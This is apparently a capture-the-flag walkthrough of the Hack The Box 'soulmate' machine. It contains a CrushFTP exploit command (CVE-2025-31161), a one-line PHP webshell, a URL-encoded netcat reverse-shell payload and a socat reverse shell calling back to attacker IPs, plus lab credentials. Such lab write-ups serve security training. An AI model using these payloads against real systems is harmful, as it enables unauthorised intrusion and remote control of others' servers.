


# Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```


-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```


### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```


-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.


The version string found:

```
11.W.657-2025_03_08_07_52
```




This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```


After exploitation, we can access with our new credentials:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`


Then we find the users and see that we can change their password, after checking i found that ben has access to the folder where the soulmate app is running so we exploit and login to that account


-----

-----

## ⚡ Web Shell Access

Upload a PHP webshell via ben's account to the webProd where we see the login.php, register.php:

```php
<?=`$_GET[0]`?>

```


Then from the soulmate.htb webapp we see that we can rce


Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```


-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

We checked the config file where there was a hardcoded admin password

```
user: admin
pass: Crush4dmin990
```


But after logging in we didn't find anything useful and any path to escalate


-----

## 📜 Privesc search with linpeas


An interesting and process we found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```


So we took a look at the binary running:


-----

## 🔑 Credential Discovery

So we found the credentials and then we will exploit

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

## 🏁 User Flag

The user flag is captured.



-----

## 🧪 Root Exploitation with Erlang

Then based on the script we ssh into the  localhost 2222 port, based on what the script was doing


We then discover a shell, after research i found that it is an erlang shelll and also learnt the syntax to execute on the machine

By experimenting with Erlang command execution:


Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.
